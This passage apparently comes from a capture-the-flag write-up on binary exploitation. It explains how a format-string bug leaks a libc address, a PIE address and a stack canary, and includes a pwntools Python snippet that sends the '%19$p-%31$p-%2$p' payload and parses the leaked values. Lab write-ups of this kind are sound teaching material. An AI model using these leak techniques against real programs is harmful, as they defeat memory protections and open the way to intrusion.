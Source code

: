 The address on line 2 seems like a `libc` address, the address on line 19 may be a `PIE` address and the latter one is the first plausible `Canary` we can leak, meaning it just may be this stack frame's canary. 

Okay let's investigate:

I wrote the following chunk of python code to send the above `printf` parameters and print the output. 

**Note:** Since this `printf` is executed only once, we have to leak all the data we can with different parameters.

```python
io = start()
sheet(io)
io.recvuntil("> ")
io.sendline(f"%19$p-%31$p-%2$p")
io.recvuntil("So, your name is: ")
leaks = io.recvline().rstrip(b"\n").decode().split("-")

pie_leak = int(leaks[0], 16)
canary = int(leaks[1], 16)
libc_leak = int(leaks[2], 16)
# stack_leak = int(leaks[3], 16)

# log.success(f"Leaked Stack Address: {hex(stack_leak)}")
log.success(f"Leaked Libc: {hex(libc_leak)}")
log.success(f"Leaked PIE address: {hex(pie_leak)}")
log.success(f"Leaked Canary: {hex(canary)}")
pause()
```

Now if we run the script and use `pwntools' gdb.debug()` function we can see the memory mappings and also see our leaked addresses.

Leaks:

![](./assets/20220131035348.png)
